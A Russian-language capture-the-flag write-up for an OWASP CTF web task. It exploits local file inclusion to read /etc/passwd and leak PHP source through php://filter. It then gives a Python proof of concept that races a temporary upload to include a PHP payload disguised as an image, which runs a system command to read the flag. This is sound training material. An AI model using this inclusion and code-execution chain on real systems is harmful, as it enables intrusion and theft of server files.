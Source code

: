 # Ivano-Frankivsk (5.owaspctf.gq)

На главной странице сразу редиректит на `http://5.owaspctf.gq/index.php?page=index.html`.
Выглядит как LFI.

`http://5.owaspctf.gq/index.php?page=/etc/passwd`

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

Так и есть. Читаем исходный код index.php:
`https://5.owaspctf.gq/index.php?page=php://filter/convert.base64-encode/resource=index.php`

```
<?php

if(empty($_GET["page"])){
  header("Location: index.php?page=index.html");
}else{
  if($_GET["page"]=="index.php"){
    $_GET["page"]="index.html";
  }

  include($_GET["page"]);

  }

 ?>
```

Ничего. Читаем так же upload.php:

```
<?php
header('Content-Type: text/plain');
//var_dump($_FILES['file']);
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (isset($_FILES['file'])) {
        $errors = [];

        $path = 'uploads/';
        $extensions = ['jpg', 'jpeg', 'png', 'gif'];

        $all_files = count($_FILES['files']['tmp_name']);


            $file_name = $_FILES['file']['name'];
            $file_tmp = $_FILES['file']['tmp_name'];
            $file_type = $_FILES['file']['type'];
            $file_size = $_FILES['file']['size'];
            $file_ext = strtolower(next(explode('.', $_FILES['file']['name'])));
            $file = $path . $file_name . ".txt";

            if (!in_array($file_ext, $extensions)) {
                $errors[] = 'Extension not allowed: ' . $file_name . ' ' . $file_type;
            }

            if ($file_size > 2048) {
                $errors[] = 'File size exceeds limit: ' . $file_name . ' ' . $file_type;
            }

            if (empty($errors)) {
                sleep(1);
                $fp = fopen('upload_log.txt', 'a');//opens file in append mode
                fwrite($fp, date('Y-m-d H:i:s') . " : " .$_SERVER['REMOTE_ADDR']."\n");
                fwrite($fp, $file_tmp."\n");
                fclose($fp);
                //move_uploaded_file($file_tmp, $file);
                //sleep(15);
            }


        if ($errors) print_r($errors);

    }
}
?>
```

Очень мешает `sleep(1);` перед записью имени временного файла в `upload_log.txt`.

Пока все это делалось dirb нашел директорию test/ в которой судя по всему лежит точная копия скриптов в корне. Проверяем.

`https://5.owaspctf.gq/index.php?page=php://filter/convert.base64-encode/resource=test/upload.php`:

```
...
            if (empty($errors)) {
                sleep(1);
                $fp = fopen('upload_log.txt', 'a');//opens file in append mode
                fwrite($fp, date('Y-m-d H:i:s') . " : " .$_SERVER['REMOTE_ADDR']."\n");
                fwrite($fp, $file_tmp."\n");
                fclose($fp);
                //move_uploaded_file($file_tmp, $file);
                sleep(15);
            }
...
```

Не совсем точная копия, в этой версии раскомментирован `sleep(15);` *после* записи в `upload_log.txt`. Это означает
что после отправки произвольного файла:

* в логе файле будет лежать путь к нашему файлу
* наш файл будет на диске 15 секунд до того как удалится

`poc.py`:
```
#!/usr/bin/python2
# -*- coding: utf-8 -*-

from __future__ import print_function

import sys
import requests
import urllib3

url = 'http://5.owaspctf.gq/'

def upload():
    requests.post(url + '?page=test/upload.php', files = {'file': open('./p.png', 'rb')})

def include():
    response = requests.get(url + 'upload_log.txt')
    lasttmp  = response.text.splitlines()[-1]
    print(lasttmp)

    response = requests.get(url + '?page=' + lasttmp)
    if '## OK ##' in response.text:
        print(response.text)
        sys.exit(0)

if __name__ == '__main__':
    urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
    upload()
    while True:
        include()
```

`p.png`:

```
<?php system("cat /home/flag_.txt"); echo '## OK ##'; ?>
```

`FLAG{Finally_You_Got_It}`
